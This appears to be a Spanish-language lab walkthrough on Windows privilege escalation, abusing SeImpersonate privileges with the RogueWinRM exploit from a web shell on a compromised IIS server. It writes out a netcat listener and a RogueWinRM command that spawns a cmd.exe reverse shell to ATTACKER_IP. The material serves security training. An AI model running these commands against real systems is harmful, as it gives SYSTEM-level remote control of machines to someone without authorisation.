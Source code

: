 Como atacantes, si logramos tomar el control de un proceso con privilegios SeImpersonate o SeAssignPrimaryToken, podemos suplantar a cualquier usuario que se conecte y se autentique en ese proceso.

En los sistemas Windows, encontrará que las CUENTAS DE SERVICIO LOCAL y DE SERVICIO DE RED ya tienen dichos privilegios. Dado que estas cuentas se utilizan para generar servicios que utilizan cuentas restringidas, tiene sentido permitirles suplantar a los usuarios que se conectan si el servicio lo necesita. Internet Information Services (IIS) también creará una cuenta predeterminada similar llamada "iis apppool\defaultapppool" para aplicaciones web.

Para elevar los privilegios utilizando dichas cuentas, un atacante necesita lo siguiente: 1. Generar un proceso para que los usuarios puedan conectarse y autenticarse en él para que se produzca la suplantación. 2. Encuentre una manera de obligar a los usuarios privilegiados a conectarse y autenticarse en el proceso malicioso generado.

Usaremos el exploit RogueWinRM para cumplir ambas condiciones.

Comencemos asumiendo que ya hemos comprometido un sitio web que se ejecuta en IIS y que hemos instalado un shell web en la siguiente dirección:

`http://MACHINE_IP/`

Podemos usar el shell web para verificar los privilegios asignados de la cuenta comprometida y confirmar que tenemos ambos privilegios de interés para esta tarea:

<figure><img src="../../.gitbook/assets/20231009174124.png" alt=""><figcaption></figcaption></figure>

Para utilizar RogueWinRM, primero debemos cargar el exploit en la máquina de destino. Para su comodidad, esto ya se hizo y puede encontrar el exploit en la `C:\tools\`carpeta.

El exploit RogueWinRM es posible porque cada vez que un usuario (incluidos los usuarios sin privilegios) inicia el servicio BITS en Windows, crea automáticamente una conexión al puerto 5985 utilizando privilegios del SISTEMA. El puerto 5985 se utiliza normalmente para el servicio WinRM, que es simplemente un puerto que expone una consola Powershell para su uso remoto a través de la red. Piense en ello como SSH, pero usando Powershell.

Si, por alguna razón, el servicio WinRM no se está ejecutando en el servidor víctima, un atacante puede iniciar un servicio WinRM falso en el puerto 5985 y detectar el intento de autenticación realizado por el servicio BITS al iniciarse. Si el atacante tiene privilegios de SeImpersonate, puede ejecutar cualquier comando en nombre del usuario que se conecta, que es SISTEMA.

Antes de ejecutar el exploit, iniciaremos un detector de netcat para recibir un shell inverso en la máquina de nuestro atacante:

```shell-session
user@attackerpc$ nc -lvp 4442
```

Y luego, use nuestro shell web para activar el exploit RogueWinRM usando el siguiente comando:

```shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

<figure><img src="../../.gitbook/assets/20231009174151.png" alt=""><figcaption></figcaption></figure>

**Nota:** El exploit puede tardar hasta 2 minutos en funcionar, por lo que su navegador puede parecer que no responde durante un momento. Esto sucede si ejecuta el exploit varias veces, ya que debe esperar a que se detenga el servicio BITS antes de iniciarlo nuevamente. El servicio BITS se detendrá automáticamente después de 2 minutos de iniciarse.
